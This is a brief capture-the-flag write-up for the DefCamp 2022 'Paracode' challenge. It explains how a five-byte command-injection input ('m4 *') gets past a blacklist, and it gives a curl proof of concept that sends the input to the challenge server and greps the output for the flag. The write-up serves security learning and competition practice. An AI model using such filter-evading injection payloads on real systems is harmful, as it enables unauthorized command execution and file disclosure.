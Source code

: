 <h1>DefCamp 2022 Paracode</h1>

<b>Note:</b> Our limit is 5 bytes without the string containing any of the combo in the array provided in the index.php. I went through and sorted out all 2 letter Linux commands that can
output all input. I came to the conclusion that m4 works well, with a wild card.

Proof of Concept:
```
curl -X GET "http://34.159.7.96:32210/?start=m4+*" 2>&1 | grep '$flag' | sed 1q
```
